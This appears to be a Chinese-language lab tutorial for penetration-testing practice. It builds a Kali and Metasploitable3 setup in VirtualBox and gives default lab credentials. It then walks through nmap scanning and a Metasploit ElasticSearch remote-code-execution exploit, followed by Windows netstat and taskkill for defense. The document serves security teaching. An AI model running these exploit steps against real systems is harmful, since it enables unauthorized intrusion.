

# 攻防情境說明


- 攻擊機 Kali Linux  
  - root/toor
  - ksu/ksu202208
- 靶機 metasploitable3 ==> vagrant/vagrant

# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks


# 環境設定2:
- 檢視IP
  - Windows ==> ipconfig
  - Linux ==> ifconfig 
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路

- 兩台機器都可以ping 到對方 


# 攻防實戰(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4

- 步驟2:啟動metasploit== > msfconsole

- 步驟3:search elastic

```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce

- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options

- 步驟6:進行攻擊 ==> exploit 或者 run

- 步驟7:攻擊成功  

- 步驟8:進入到post-exploitation階段  ==> [Meterpreter](meterpreter.md)


# 攻防實戰(2)Windows防禦
- 網路連線偵測 ==> netstat
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
    


- 終結 惡意網路連線 ==> 小小抱怨 : 教科書及linux 都是用`process(行程)` 微軟硬是要新創`工作(Task)` 
  - `工作`管理員(`Task` Manager)
    - [Windows 10 開啟「 工作管理員 」的11種方法](https://walker-a.com/archives/3436) 
  - [tasklist](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist):顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
  - [taskkill](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill) 獵殺執行中的程式(結束一個或多個工作或處理序)
    - [微軟官方說明](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill)
    - taskkill /PID XXXX /F
      - /F 參數強制進程終止，這對於許多不想關閉的討厭任務很有用。 

## 更多Metasploitable3解題
- [Rapid7官方網站 rapid7/metasploitable3-win2k8](https://app.vagrantup.com/rapid7/boxes/metasploitable3-win2k8)
- [OVA下載點 metasploitable3-ub1404upgraded](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/)
- [漏洞說明Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
- 測試報告
  - [Metasploit walkthrough](https://zero-day.io/metasploitwalkthrough/)
  - [Metasploitable 3 Walkthrough - Getting System](https://two06.blogspot.com/2016/12/metasploitable-3-walkthrough.html)
  - [Attacking Metasploitable 3 (Windows) - Metasploit Minute](https://www.youtube.com/watch?v=4HOGfSQEYuE)
  - [Metasploitable 3 (Linux) Walkthrough: An Exploitation Guide](https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/)
  - Hacking Articles
    - [Manual Penetration Testing in Metasploitable 3](https://www.hackingarticles.in/manual-penetration-testing-metasploitable-3/)
    - [Exploitation of Metasploitable 3 using Glassfish Service](https://www.hackingarticles.in/exploitation-metasploitable-3-using-glassfish-service/)
    - [Penetration Testing in Metasploitable 3 with SMB and Tomcat](https://www.hackingarticles.in/penetration-testing-metasploitable-3-smb-tomcat/)
  - [Metasploitable 3 实战渗透测试](https://blog.csdn.net/weixin_51167520/article/details/114745286)


# 延伸學習
- [滲透測試](PT.md)
- [Kali linux 學習](Kali202304.md)
- [基本Windows技術](BasicWindows.md)
  - [Windows 指令(Windows Commands)](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands)
  - Windows/Linux常用網路指令
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
- 更多滲透測試實戰
  - [Log4J 漏洞分析與Penetration Testing](Log4J.md)
  - 滲透測試專題 Hacking Articles
    - [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
    - [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
  - 推薦紅藍攻防 see [滲透測試實戰](PT_LABs.md)
    - 準備要考OSCP等實戰證照
      - [rkhal101/Hack-the-Box-OSCP-Preparation](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation)
    - Red team 滲透測試靶機
      - [Hack The Box: Hacking Training For The Best](https://www.hackthebox.com/)
      - [TryHackMe | Cyber Security Training](https://tryhackme.com/)
      - [VulnHub| Vulnerable By Design](https://www.vulnhub.com/) 
    - Blue Team
      - [LetsDefend - Blue Team Training](https://www.letsdefend.io/) 


